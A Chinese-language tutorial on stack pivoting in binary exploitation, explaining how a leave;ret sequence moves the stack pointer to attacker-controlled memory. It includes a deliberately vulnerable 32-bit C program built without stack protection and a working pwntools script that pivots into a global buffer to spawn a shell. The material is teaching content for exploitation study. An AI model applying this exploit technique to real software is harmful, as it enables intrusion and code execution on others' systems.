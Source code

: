 ```yaml
---
title: "栈迁移"
description: ""
lead: ""
date: 2023-06-01T21:17:56+08:00
lastmod: 2023-06-01T21:17:56+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "stack_pivoting-28d6785c5956b294688cec7ec2408a70"
weight: 6
toc: true
---
```


## 0x01 介绍

很多时候由于溢出栈字节不够多，不能构造完整的payload，这时候就需要用到stack pivoting技巧来完成操作。它的核心理念在于如果我们在某个内存中可以输入完整的payload，那么我们就可以用该技巧将当前栈顶指针修改指向这段内存，然后通过一些指令来执行这段内存里的payload。

最常见的指令是`leave;ret`指令。leave是相对于函数序言的相反操作，函数序言的操作为

```cpp
 push ebp
 mov ebp, esp
```

将上一个函数栈帧的栈底指针压入到栈中，然后在将当前esp赋值给ebp即设置当前栈帧的栈底指针。leave的操作刚好相反，先将当前ebp赋值给esp，在弹出当前栈顶即恢复上一个函数栈帧的栈底指针，相当于以下指令

```cpp
 mov esp, ebp
 pop ebp
```

如果我们在溢出的是否覆盖了保存在栈里的上一个栈帧的栈底指针，通过leave指令就会将这个值保存到了ebp里，如果这时候再次执行leave指令，则会将ebp中保存的修改后的指针赋值给esp，也就是将当前栈顶指针迁移到了我们覆盖的地址+一个栈单元处。

![38e74847529c7bb77305089dad130632](images/38e74847529c7bb77305089dad130632.png) 加一个栈单元的原因是leave会在esp转移过去后先pop一个栈单元到ebp中。如果我们在指定的地址+一个栈单元处填了ROP链，那么迁移过去后执行ret指令就会开始执行ROP链。以一个例子来说

```cpp
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>
 char data[0x1000] = {0};// 防止其他函数操作覆盖到got之类的数据
 char p[0x20];
 ​
 void hint() {
     system("echo flag");
 }
 ​
 void run() {
     char buf[0x10];
     read(0, buf, 0x20);
     read(0, p, 0x20);
 }
 ​
 int main() {
     run();
     return 0;
 }
 // gcc stack_pivoting.c -o stack_pivoting -m32 -fno-stack-protector -no-pie
```

第一次输入虽然是栈溢出，但是它只能覆盖到函数返回地址，而且程序只有system函数，还需要自己构造`/bin/sh`字符串，第二次输入是往全局变量里写入字符串，我们可以将`/bin/sh`写入到里面并同时构造`system("/bin/sh")`的ROP链，它的结构可以为

![79afcb7258bc9b580d6c8be32b5bdd74](images/79afcb7258bc9b580d6c8be32b5bdd74.png)

`/bin/sh\x00`在末尾的目的是为了防止在解析system函数实际地址的时候被覆盖掉导致无法执行 我们通过栈溢出覆盖上一个栈帧的栈底指针为这里的system@plt-4的位置，然后将函数返回地址覆盖为leave指令的地址，最后执行完两次leave后esp就迁移到了system@plt的位置，这时候再执行ret指令，就会执行`system("/bin/sh")`的ROP链了。我们可以写出攻击脚本为

```python
 from pwn import*
 context.log_level = 'debug'
 o = process("./stack_pivoting")
 system_plt = 0x8048310
 p = 0x804b040
 leave_ret = 0x8048482
 payload = b'a'*0x18 + p32(p-4) + p32(leave_ret)
 o.send(payload)
 payload = p32(system_plt) + p32(p+12)*2 + b"/bin/sh\x00"
 o.sendline(payload)
 o.interactive()
```

![7d263d36c1630a0ce955c35cbb7c90e6](images/7d263d36c1630a0ce955c35cbb7c90e6.png)  

栈迁移除了可以迁移到bss，还可以迁移到很多地方，只要你有地址就可以尝试迁移，比如栈或者堆
